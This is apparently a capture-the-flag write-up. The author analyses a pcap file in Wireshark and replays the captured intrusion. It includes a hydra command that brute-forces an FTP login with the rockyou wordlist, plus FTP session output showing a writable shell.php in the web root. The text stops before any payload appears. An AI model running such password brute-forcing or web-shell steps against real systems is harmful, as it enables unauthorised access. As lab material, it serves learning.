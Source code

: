 Description: Find out what happened by analysing a .pcap file and hack your way back into the machine

From the above description, we know we need wireshark so we downloaded the file and opened it up using wireshark

we see a lot of `ftp` and `tcp` protocols

we followed the packet streams and voila~ we get what we need

bash history, essentially we can replicate the attack given it is not patched

[FTP TCP Stream](https://www.notion.so/FTP-TCP-Stream-20d9c541337a809aab66e9939a484084?pvs=21)

[TCP Stream after handshake](https://www.notion.so/TCP-Stream-after-handshake-20d9c541337a805a8d05e682c4b66149?pvs=21)

All we needed to do was to replicate this

Firstly we need to log onto the ftp server to download the file to modify it as we cannot modify it as jenny

```jsx
**┌──(namura㉿namu)-[~]
└─$ hydra -l jenny -P /usr/share/wordlists/rockyou.txt ip_address ftp**
```

And we get the passwd yay~

then we log onto the server as jenny

if we dont know `jenny` then we can maybe list the users using smbclient or maybe enum4linux or maybe just nmapping with a few scripts

Okay so then we hit `ls`

```jsx
ftp> ls -la
229 Entering Extended Passive Mode (|||27934|)
150 Here comes the directory listing.
drwxr-xr-x    2 1000     1000         4096 Feb 01  2021 .
drwxr-xr-x    3 0        0            4096 Feb 01  2021 ..
-rw-r--r--    1 1000     1000        10918 Feb 01  2021 index.html
-rwxrwxrwx    1 1000     1000         5492 Jun 09 10:03 shell.php
226 Directory send OK.
```

Fair enough we get this, obviously we see cant modify any thing, a few checks were done

```jsx
ftp> ls
229 Entering Extended Passive Mode (|||17635|)
150 Here comes the directory listing.
-rw-r--r--    1 1000     1000        10918 Feb 01  2021 index.html
-rwxrwxrwx    1 1000     1000         5493 Feb 01  2021 shell.php
226 Directory send OK.
ftp> ls /root/Reptile
229 Entering Extended Passive Mode (|||42656|)
150 Here comes the directory listing.
226 Transfer done (but failed to open directory).
ftp> user 
(username) jenny
331 Any password will do.
Password: 
230 Already logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> syst
215 UNIX Type: L8
ftp> pwd
Remote directory: /var/www/html
ftp> passive
```